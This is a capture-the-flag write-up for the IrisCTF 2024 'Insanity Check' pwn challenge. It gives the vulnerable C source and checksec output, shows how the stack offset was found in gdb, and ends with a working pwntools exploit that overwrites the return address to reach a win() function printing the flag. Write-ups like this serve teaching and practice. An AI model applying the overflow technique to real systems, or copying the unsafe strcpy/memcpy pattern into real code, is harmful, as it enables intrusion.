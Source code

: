 ```yaml
---
title: Insanity Check
author: capang
date: 2024-01-09 09:30:00 +0800
categories: [Writeups, PWN]
tags: [irisctf 2024]
math: true
mermaid: true
---
```


# Overview

The unsafe `memcpy` usage in the `main()` function causes Buffer Overflow which causes us being able to overwrite the RSP and return to the targeted address `win()` function. However, our input will only causes Buffer Overflow but the predefined `suffix` in the `main()` function will be populated in RSP. Turns out the targeted function `win()` address is the same value as the string `.com`    

## Source file

[Download Source File]({{site.url}}/assets/files/insanity-check.tar.gz)

# File Analysis

## Security checking

```bash
vuln: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=c2d6acffbfd9fd36c0a8089feffe3ce53f3eabba, for GNU/Linux 4.4.0, not stripped
```

```python
checksec --file vuln
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x40000000)
```

### Key Points

- possible buffer overflow
- function address not randomized

## Checking the source code

```C 
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void rstrip(char* buf, const size_t len) {
    for (int i = len - 1; i >= 0; i--)
        if (buf[i] == '\n') {
            buf[i] = '\0';
            break;
        }
}

const char suffix[] = "! Welcome to IrisCTF2024. If you have any questions you can contact us at test@example.com\0\0\0\0";

int main() {
    char message[128];
    char name[64];
    fgets(name, 64, stdin);
    rstrip(name, 64);

    strcpy(message, "Hi there, ");
    strcpy(message + strlen(message), name);
    memcpy(message + strlen(message), suffix, sizeof(suffix));

    printf("%s\n", message);
}

__attribute__((section(".flag")))
void win() {
    __asm__("pop %rdi");
    system("cat /flag");
}
```

### Target function

Found a target function which is `win()`

```
0x000000006d6f632e  win
```

### Vulnerabilities

The user needs to input max 64 Characters
However unsafe memcpy usage in the `main()` function resulting in buffer overflow

```C
strcpy(message, "Hi there, ");
strcpy(message + strlen(message), name);
memcpy(message + strlen(message), suffix, sizeof(suffix));
```

```
len("Hi there, ") = 10
len(input) = 64 max
len(suffix) = 94
total = 160
```

Buffer overflow can occur

## Exploitation

`0x000000006d6f632e  win` is the address of the win() function
`unhex(0x000000006d6f632e) = moc.`
In the suffix there is '.com' which we can overwrite the RSP with it

### Finding the offsets

To find the offsets we need to use debugger, in my case we use gdb-pwndbg

First we need to input max number of char

```python
*RSP  0x7fffffffdce8 ◂— 'example.com' or 0x2e656c706d617865
```

RSP were populated with 'example.com'. To have only .com in the RSP, we need to substract 'example'. Which is 64 - 7 = 57

```python
Invalid address 0x6d6f632e65 -> e.com
```

Opps, we need another more. thus the offsets is 64-8 = 56. We can craft our payload using PWNTOOLS or manually.

```exploit.py
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)
# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())
# Set up pwntools for the correct architecture
exe = './vuln'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# libc = elf.libc
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'info'
# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================
io = start()

payload = flat(
    b'A' * 56,
    )


io.sendline(payload)
print(io.recv())
io.interactive()
```

![Flag Picture](/assets/img/writeups/flag-insanity-check.png)

irisctf{c0nv3n13nt_symb0l_pl4cem3nt}


